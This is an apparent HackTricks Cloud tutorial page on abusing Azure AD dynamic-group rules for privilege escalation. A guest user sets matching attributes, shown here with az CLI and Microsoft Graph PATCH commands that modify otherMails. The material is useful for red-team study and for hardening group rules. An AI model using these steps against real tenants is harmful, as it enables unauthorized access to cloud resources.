 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Dynamic groups** are groups that has a set of **rules** configured and all the **users or devices** that match the rules are added to the group. Every time a user or device **attribute** is **changed**, dynamic rules are **rechecked**. And when a **new rule** is **created** all devices and users are **checked**.

Dynamic groups can have **Azure RBAC roles assigned** to them, but it's **not possible** to add **AzureAD roles** to dynamic groups.

This feature requires Azure AD premium P1 license.

## Privesc

Note that by default any user can invite guests in Azure AD, so, If a dynamic group **rule** gives **permissions** to users based on **attributes** that can be **set** in a new **guest**, it's possible to **create a guest** with this attributes and **escalate privileges**. It's also possible for a guest to manage his own profile and change these attributes.

Get groups that allow Dynamic membership: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **Rule example**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Rule description**: Any Guest user with a secondary email with the string 'security' will be added to the group

For the Guest user email, accept the invitation and check the current settings of **that user** in [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Unfortunately the page doesn't allow to modify the attribute values so we need to use the API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --headers 'Content-Type=application/json' \
  --body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --query "otherMails"
```
{% endcode %}

## References

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
